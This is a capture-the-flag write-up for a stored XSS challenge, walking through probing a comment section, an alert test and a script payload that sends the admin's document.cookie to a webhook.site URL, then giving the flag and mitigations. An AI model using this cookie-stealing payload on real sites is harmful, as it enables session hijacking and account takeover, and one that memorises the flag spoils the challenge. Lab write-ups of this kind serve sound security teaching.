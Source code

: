 # CTF Writeup: Stealing Cookies with XSS

This writeup demonstrates how to exploit a Cross-Site Scripting (XSS) vulnerability to steal cookies from an admin user in a vulnerable comment section.

Reference: [Using Cross Site Scripting (XSS) to Steal Cookies](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)

---

## Step 1: Explore the Comment Section

1. Load the target website and navigate to the **comment section**.
2. Try submitting a simple comment with the content:

   ```
   123<>" 
   ```

3. After submission, you may be redirected to the default skrctf website. This is expected—simply navigate back to the comment section and make sure the service port is open.
4. Once back, check your comment on the page. You should see the exact text `123<>""` rendered as is.
5. View the page source to verify any encoding. You'll notice **there is no encoding or sanitization of special characters**. This confirms the website is vulnerable to XSS attacks.

---

## Step 2: Test XSS Injection

1. Go to [Webhook.site](https://webhook.site/) and generate a unique URL to collect incoming HTTP requests.
2. Submit a comment to test basic XSS with this payload:

   ```
   <script>alert(1)</script>
   ```

3. Reload and revisit the website. You should see a JavaScript alert box with "1" pop up immediately, demonstrating successful script injection.

---

## Step 3: Steal Admin Cookies Using XSS

1. Replace `[URL]` below with your webhook URL from Step 2 (remove brackets):

   ```
   <script>document.write('<img src="[URL]?c='+document.cookie+'" />');</script>
   ```

   Example if your URL is `http://example.webhook.site/abcd`:

   ```
   <script>document.write('<img src="http://example.webhook.site/abcd?c='+document.cookie+'" />');</script>
   ```

2. Submit this comment payload to the vulnerable comment section.
3. Reload the website. The alert will pop up again since the `<script>` runs.
4. Click **Report to Admin** which triggers the admin to visit the page containing your injected script.
5. Go back to your webhook dashboard to view the incoming requests. You will see the admin’s cookie sent to your webhook URL.

---

## Flag

```
SKR{Ste4l1ng_4Dm1n_C0Ok135sss_330017}
```

---

## Mitigations

- Always sanitize and encode user-supplied input, especially before rendering on the page.
- Implement Content Security Policy (CSP) headers.
- Use HttpOnly and Secure flags on cookies to protect them from JavaScript access.
- Regular security reviews and testing for XSS vulnerabilities.
```
